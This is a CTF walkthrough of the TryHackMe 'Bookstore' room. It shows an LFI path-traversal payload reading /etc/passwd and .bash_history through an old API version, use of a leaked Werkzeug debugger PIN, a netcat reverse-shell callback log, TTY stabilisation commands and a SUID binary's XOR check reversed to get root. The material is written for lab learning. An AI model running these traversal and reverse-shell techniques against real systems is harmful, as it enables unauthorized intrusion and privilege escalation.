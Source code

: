 ```yaml
---
title: Tryhackme-Bookstore
tags: [Api, security, Tryhackme, Cybersecurity, CTF]
layout: post
---  
```



## Bookstore THM walkthrough

Bookstore is medium rated room in tryhackme where attacker can test their api hacking skills. It contains some basic api vulnerability by leveraging which attacker had to gain full access to the machine. Let's start.
## Initial recon

The first thing we do is run nmap against the target ip and find out which ports are opened.
`nmap 10.10.247.2 -sC -sV`. The output of the command is shown below.
```
┌──(samsec㉿kali)-[/usr/share/dict]
└─$ nmap 10.10.247.2 -sC -sV    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:06 +0545
Nmap scan report for 10.10.247.2 (10.10.247.2)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: Home
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.13 seconds
```

We see 3 ports are opened. Webserver is running on port 80, we have ssh opening and some api running in port 5000. Let's check out the web app first on port 80.

## Web App Enumeration

There's nothing much in the website. We see normal interface and no much endpoints rather than a single login page. We can't signup or create the users also. 
![Image](/assets/img/bookstore/website.png)
![Image](/assets/img/bookstore/login.png)

So, let's head towards enumerating API on port 5000.

## API enumeration

We see the foxy REST API running. What can we do further if we don't have API documentation? Nothing. It's time to do directory bruteforcing or we can check out robots.txt file and find out the disallowed entry for /api.
![Image](/assets/img/bookstore/robots.png)

When viewing the /api endpoints , now we see the documentation for API. We see some endpoints that the API accepts. We view all the available endpoints manually and at the same time we keep our burp running on background so that we can analyze the endpoints further.![Image](/assets/img/bookstore/documentation.png)

When viewing all the endpoints, I didn't find anything interesting. After roaming around the website further, I check the js files. When viewing /api.js file, there is something left over in the comment. ![Image](/assets/img/bookstore/comment.png)

Guess what??. There was LFI vulnerability in the previous version of API ie. v1. Now they updated the version to v2 patching the previous vulnerability.
When you are testing the API, it's always a good practice to look around for Improper Assets Management(changing the version of the api to lower and seeing how the api reacts to the older version). I tried to figure out the changes in older version long time but couldn't move further. I was stuck for a moment. I get lost because  i kept testing the `10.10.247.2:5000/api/v2/resources/books/random4` , trying to find out it accepts any parameters in the older version by which we can find out the LFI issues. This endpoint was safe cause the older version ie. `10.10.247.2:5000/api/v1/resources/books/random4` was removed and replaced with the new one. 
After hanging for a minute, I read the documentation thoroughly and i noticed something. 
![Image](/assets/img/bookstore/interesting.png)

2 or more??? What does that means?? Does this endpoint accepts some other parameters too. To my surprise it did. Running Param Miner on this endpoint reveal `show` parameter. If you append this parameter with value `../../../../../etc/passwd` you get same results as with 2 parameters. But there was vulnerability in previous version right?? So let's check the older version and BOOM!! We get the /etc/passwd of the server. 

![Image](/assets/img/bookstore/lfi.png)

We found the LFI issue in the API. What's next??

## Gaining access to the machine

I tried to read the .ssh/id_rsa if any cause i know there is ssh opened but this  lead to nowhere. When directory bruteforcing the website, I found the endpoint `/console` . And also there is commented line in login.html that says the debugger pin is in the .bash_history file. 
![Image](/assets/img/bookstore/debugger.png)

So, the goal is to get the pin using LFI in the .bash_history file and accessing the /console using that pin. 
![Image](/assets/img/bookstore/pin.png)

Access the console using the pin and run the reverse shell on the console.
You can get the reverse shell payload from `revshells.com` . Set the netcat listener and run the payload and get the reverse shell. 
```
┌──(samsec㉿kali)-[~]
└─$ nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.17.70.133] from (UNKNOWN) [10.10.247.2] 49434
$ whoami
whoami
sid
$ 

```

You can clean up the tty shell with following lines of command. 
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty; pty.spawn("/bin/bash")'

hit CTRL+Z to run the process in backgroung and run below command
stty raw -echo && fg

the process will run in foreground after this and type reset
and type xterm,
for colorful shell export the term variable. 

export TERM=xterm
You will get fully interactive shell.

```

You can get the user flag easily by doing `cat user.txt`

Now it's time to get the root flag.

## Privilege Escalation

There is binary file having suid bit set called `tryharder`. When running the file, we are prompted to enter the magic number and if that'st correct , we will get the shell, I guess?
```
sid@bookstore:~$ ls
api.py  api-up.sh  books.db  try-harder  user.txt
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
123
Incorrect Try Harder
sid@bookstore:~$
```

Let's do some reversing using Ghidra. Download the binary to the local machine by hosting python server in the machine and wget to download it.
```
┌──(samsec㉿kali)-[~]
└─$ cd /tmp
                                                                                                                                                  
┌──(samsec㉿kali)-[/tmp]
└─$ wget 10.10.247.2:8000/try-harder
--2023-10-11 19:40:36--  http://10.10.247.2:8000/try-harder
Connecting to 10.10.247.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8488 (8.3K) [application/octet-stream]
Saving to: ‘try-harder’

try-harder                           100%[====================================================================>]   8.29K  --.-KB/s    in 0s      

2023-10-11 19:40:37 (176 MB/s) - ‘try-harder’ saved [8488/8488]
```

When decompiling the binary in Ghidra we see the function as:
![Image](/assets/img/bookstore/ghidra.png)

That's it. The goal is to find out the number a where `a ^ 23987 ^4374 = 1573724660` where `^` represents XOR and I've decoded the hex value into decimal. On doing so we get the value of a which is the number we need to input in order to get the shell.
```
┌──(samsec㉿kali)-[/tmp]
└─$ python3 
Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5db3
23987
>>> 0x1116
4374
>>> 0x5dcd21f4
1573724660
>>> 23987 ^ 4374 ^ 1573724660
1573743953
>>> 

```

We get the shell as root. Now we completed the room. ![[root.png]]

It was little bit overwhelming to get the initial foothold and root was a bit messy for me because i was new to Ghidra when doing this room. Anyway this room teach  me lot more stuffs about about API enumeration and reverse engineering. That much for this blog.
